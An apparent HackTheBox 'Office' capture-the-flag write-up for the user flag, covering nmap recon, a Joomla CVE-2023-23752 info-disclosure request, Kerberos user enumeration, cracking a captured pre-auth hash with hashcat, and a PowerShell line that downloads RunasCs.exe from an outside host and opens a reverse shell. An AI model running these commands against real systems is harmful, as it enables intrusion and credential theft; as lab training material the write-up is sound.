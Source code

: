 +++
title = 'Test'
draft = false
+++
# writeup office HTB(user)
## user
### RECON
```
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 16 disallowed entries 
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-generator: Joomla! - Open Source Content Management
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-title: Home
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-02-19 14:34:25Z)
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
..........................................

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38823/tcp): CLEAN (Timeout)
|   Check 2 (port 18395/tcp): CLEAN (Timeout)
|   Check 3 (port 60879/udp): CLEAN (Timeout)
|   Check 4 (port 60573/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: 7h59m52s
| smb2-time: 
|   date: 2024-02-19T14:35:21
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 19 01:36:08 2024 -- 1 IP address (1 host up) scanned in 105.60 seconds
```
### web
let check admin page 
![image](https://github.com/vanatka10/myblog/assets/126310360/8cf1bcb3-0cb5-4c13-93c0-a7d89ea5a3f8)

i have login with some default username and password but nothing are corret

let check version joomla
we can check verion with following path:
```
Version
In /administrator/manifests/files/joomla.xml you can see the version.
In /language/en-GB/en-GB.xml you can get the version of Joomla.
In plugins/system/cache/cache.xml you can see an approximate version.
```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla

![image](https://github.com/vanatka10/myblog/assets/126310360/857f9313-2f9e-43d5-a2a7-889871041884)
### CVE-2023-23752
we can easily found cve of this version
![image](https://github.com/vanatka10/myblog/assets/126310360/6607d033-ebe1-4973-a4fd-99226cdf4ce1)

Unauthenticated information disclosure that's exactly what we want.

look at some exploit file we can see it with send request to some uri and retrieve some useful information:
```
{root_url}/api/index.php/v1/users?public=true
{root_url}/api/index.php/v1/config/application?public=true
```
![image](https://github.com/vanatka10/myblog/assets/126310360/7abb26a3-441a-466b-91ad-d538bbf8b461)

https://github.com/Acceis/exploit-CVE-2023-23752.git

![image](https://github.com/vanatka10/myblog/assets/126310360/732f64ad-ec0f-4d26-8215-0f1ea55190dc)

We have some Credentials but i can't login with these :3 . probably password of another user?
kerberos port open so i use kerbrute discover user.  
i got some username, after a few tries and fuzz finally i have working username .It is 'dwolfe' but it just use in smb

### smb
```
smbclient //10.129.198.153/SOC\ Analysis  -U 'dwolfe'
```
and get file pcap

following this article we get username, hash and crack password with hashcat
https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/
```
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```

```
hashcat -m 19900 hash.txt /user/share/wordlist/rockyou.txt
```

pass:playboy69

### user

login admin panel -> template and ... get reverse shell
![image](https://github.com/vanatka10/myblog/assets/126310360/aaaf5e9b-a270-4b37-a264-d755805607e1)

next we use runas to elevate an account
```
powershell -c wget 10.10.16.48:9000/RunasCs.exe -o r.exe
./r.exe tstark playboy69 -r 10.10.16.48:8888 cmd


```
![image](https://github.com/vanatka10/myblog/assets/126310360/24571f7e-886b-4cf1-be73-fc13573affc1)

get the flag
![image](https://github.com/vanatka10/myblog/assets/126310360/c356cb70-a650-4ab6-a65b-36748dbc2931)
